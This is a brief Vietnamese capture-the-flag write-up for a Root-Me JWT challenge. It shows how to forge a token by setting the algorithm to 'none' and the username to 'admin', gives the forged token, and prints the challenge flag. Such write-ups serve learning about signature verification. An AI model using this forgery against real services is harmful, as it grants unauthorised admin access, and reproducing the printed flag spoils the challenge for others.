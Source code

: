 # [JSON Web Token (JWT) - Introduction](https://www.root-me.org/en/Challenges/Web-Server/JSON-Web-Token-JWT-Introduction)

## Solutions

- Đăng nhập với guest, base64 decode cookie jwt ta được:

```json
{"typ":"JWT","alg":"HS256"}{"username":"guest"}g`^;aeI}3]
```

- Thay đổi nội dung:

```json
{"typ":"JWT","alg":"none"}{"username":"admin"}
```

- Base64 encode với ký tự `.` ngăn cách các json object, ta được:

```text
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=.eyJ1c2VybmFtZSI6ImFkbWluIn0=
```

- Dùng burp suite hoặc devtool thay đổi cookie jwt và gửi lại request

Kết quả:

- Flag xuất hiện ở response: `S1gn4tuR3_v3r1f1c4t10N_1S_1MP0Rt4n7`
